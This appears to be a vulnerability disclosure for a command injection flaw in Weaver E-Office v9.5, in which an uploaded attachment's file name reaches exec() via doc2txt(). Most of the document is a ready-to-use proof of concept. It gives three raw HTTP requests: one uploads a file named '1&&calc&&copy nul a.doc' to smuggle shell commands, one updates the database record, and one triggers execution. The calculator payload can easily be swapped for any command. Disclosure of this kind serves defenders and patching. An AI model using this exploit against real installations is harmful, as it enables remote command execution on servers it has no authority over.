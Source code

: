 weaver E-Office v9.5 Command execution vulnerabilities

official website:https://www.e-office.cn/

version:v9.5

The exploit functions appeared at lines 1007-1008 of /webroot/inc/utility_all.php. The custom function doc2txt() called exec() function, and the $path variable was controllable by users without restrictions, which could be used to inject arbitrary commands using the command connection symbol "&&".

![WPS图片(1)](https://user-images.githubusercontent.com/129963609/235029932-f4bec778-9bbc-4fa6-a846-7c60bc088e2b.png)

The vulnerability trigger point is located in the /webroot/general/file_folder/global_search.php file. We call doc2txt() at line 108 and then trace back to the source of the doc2txt() argument $FILE_PATH, Concatenate the values of ATTACHMENT_ID(folder) and ATTACHMENT_NAME(file name) columns in data table FLE_CONTENT for attachment directory (C:\eoffice9\webroot\attachment) to get the full file path.

Note that the registration global variable setting (register_globals = On) is enabled in the php configuration file (php.ini), So the value of variable $ATTACHMENT_DATA at line 93 and variable $SEARCH_DOC at line 106 requires the user to GET/POST in. And 103 lines will check the file exists, so should not be included in the file in command execution cannot use \ / | < > : * "? Special symbol.

![WPS图片(2)](https://user-images.githubusercontent.com/129963609/235030016-52b24bd8-e783-47e5-949e-ee7a159a9279.png)

Folder where the attachment is located:

![WPS图片(3)](https://user-images.githubusercontent.com/129963609/235030136-25f2738c-81bf-4d74-865f-1b1a9cef5ce3.png)

Attachment name:

![Uploading WPS图片(4).png…]()

To view the files in this directory:

![WPS图片(5)](https://user-images.githubusercontent.com/129963609/235030256-065c438b-5f31-4797-a88a-0fc77aa1ca29.png)

exploitation of vulnerability

Create a common user named test with the role of employee.

![WPS图片(6)](https://user-images.githubusercontent.com/129963609/235030325-38bebf2f-f6cd-420c-8e11-b9212270b65e.png)

Log in as the test user, go to Document Center -> New Document, create a document and upload the attachment named "1&&calc&&copy nul a.doc", then click Submit.

![WPS图片(7)](https://user-images.githubusercontent.com/129963609/235030415-6336faca-2d01-4fae-b980-5e05bc14d1e2.png)

upload attachment

![WPS图片(8)](https://user-images.githubusercontent.com/129963609/235030483-80d0a052-bda0-4a84-bdf2-b600cbdf3150.png)

upload attachment Updates data table attachment information.

![WPS图片(9)](https://user-images.githubusercontent.com/129963609/235030541-2c3592d6-026a-4247-874a-274fe05fc4e5.png)


Visit the vulnerability trigger page.
http://172.16.10.124/general/file_folder/global_search.php?ATTACHMENT_DATA=1&SEARCH_DOC=on

![WPS图片(10)](https://user-images.githubusercontent.com/129963609/235030609-358583d6-381a-4154-a17e-c5afef91303e.png)

Log in to the server to view the process and enable the Windows calculator.

![WPS图片(11)](https://user-images.githubusercontent.com/129963609/235030693-1cd83732-30a5-4ae5-bd0c-9078c0949175.png)

POC

upload attachment
```
POST /inc/jquery/uploadify/uploadify.php HTTP/1.1
Host: 172.16.10.124
Content-Length: 328
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary1ZCUAAAXxnYuVIZR
Accept: */*
Origin: http://172.16.10.124
Referer: http://172.16.10.124/general/file_folder/file_new/neworedit/index.php?FILE_SORT=1&func_id=7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: LOGIN_LANG=cn; PHPSESSID=16a132db599e8d54a45e704389a29686
Connection: close

------WebKitFormBoundary1ZCUAAAXxnYuVIZR
Content-Disposition: form-data; name="name"

1&&calc&&copy nul a.doc
------WebKitFormBoundary1ZCUAAAXxnYuVIZR
Content-Disposition: form-data; name="Filedata"; filename="1&&calc&&copy nul a.doc"
Content-Type: application/msword

aaaaa
------WebKitFormBoundary1ZCUAAAXxnYuVIZR--
```

Update the data in the data table

```
POST /general/file_folder/file_new/neworedit/submit.php?func_id=3 HTTP/1.1
Host: 172.16.10.124
Content-Length: 2426
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://172.16.10.124
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary2JIQiWFev9A8p6UP
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://172.16.10.124/general/file_folder/file_new/neworedit/index.php?FILE_SORT=1&func_id=7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: MODE_TILE=tree; LOGIN_LANG=cn; LOGIN_LANG=cn; PHPSESSID=16a132db599e8d54a45e704389a29686
Connection: close

------WebKitFormBoundary2JIQiWFev9A8p6UP
Content-Disposition: form-data; name="check_log_id"


------WebKitFormBoundary2JIQiWFev9A8p6UP
Content-Disposition: form-data; name="attachmentIDStr"

1575146901,
------WebKitFormBoundary2JIQiWFev9A8p6UP
Content-Disposition: form-data; name="attachmentNameStr"

1&&calc&&copy nul a.doc*
------WebKitFormBoundary2JIQiWFev9A8p6UP
Content-Disposition: form-data; name="filename_id"

eoffice9.0功能资料
------WebKitFormBoundary2JIQiWFev9A8p6UP
Content-Disposition: form-data; name="SORT_ID"

28
------WebKitFormBoundary2JIQiWFev9A8p6UP
Content-Disposition: form-data; name="SUBJECT"

test
------WebKitFormBoundary2JIQiWFev9A8p6UP
Content-Disposition: form-data; name="type_value"

1
------WebKitFormBoundary2JIQiWFev9A8p6UP
Content-Disposition: form-data; name="file_elem"; filename=""
Content-Type: application/octet-stream


------WebKitFormBoundary2JIQiWFev9A8p6UP
Content-Disposition: form-data; name="SMS_USER_ID"


------WebKitFormBoundary2JIQiWFev9A8p6UP
Content-Disposition: form-data; name="MOVEBILE_USER_ID"


------WebKitFormBoundary2JIQiWFev9A8p6UP
Content-Disposition: form-data; name="EMAIL_USER_ID"


------WebKitFormBoundary2JIQiWFev9A8p6UP
Content-Disposition: form-data; name="ATTACHMENT_ID_OLD"


------WebKitFormBoundary2JIQiWFev9A8p6UP
Content-Disposition: form-data; name="ATTACHMENT_NAME_OLD"


------WebKitFormBoundary2JIQiWFev9A8p6UP
Content-Disposition: form-data; name="refreshno"


------WebKitFormBoundary2JIQiWFev9A8p6UP
Content-Disposition: form-data; name="content_type"

1
------WebKitFormBoundary2JIQiWFev9A8p6UP
Content-Disposition: form-data; name="CONTENT_ID"


------WebKitFormBoundary2JIQiWFev9A8p6UP
Content-Disposition: form-data; name="OP"


------WebKitFormBoundary2JIQiWFev9A8p6UP
Content-Disposition: form-data; name="FILE_SORT"

1
------WebKitFormBoundary2JIQiWFev9A8p6UP
Content-Disposition: form-data; name="cur_page"


------WebKitFormBoundary2JIQiWFev9A8p6UP
Content-Disposition: form-data; name="operationType"


------WebKitFormBoundary2JIQiWFev9A8p6UP
Content-Disposition: form-data; name="docStr"


------WebKitFormBoundary2JIQiWFev9A8p6UP
Content-Disposition: form-data; name="contentTypeStr"

html
------WebKitFormBoundary2JIQiWFev9A8p6UP
Content-Disposition: form-data; name="editorValue"


------WebKitFormBoundary2JIQiWFev9A8p6UP--
```

Access a trigger page

```
GET /general/file_folder/global_search.php?ATTACHMENT_DATA=1&SEARCH_DOC=on HTTP/1.1
Host: 172.16.10.124
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: LOGIN_LANG=cn; PHPSESSID=16a132db599e8d54a45e704389a29686
Connection: close
```
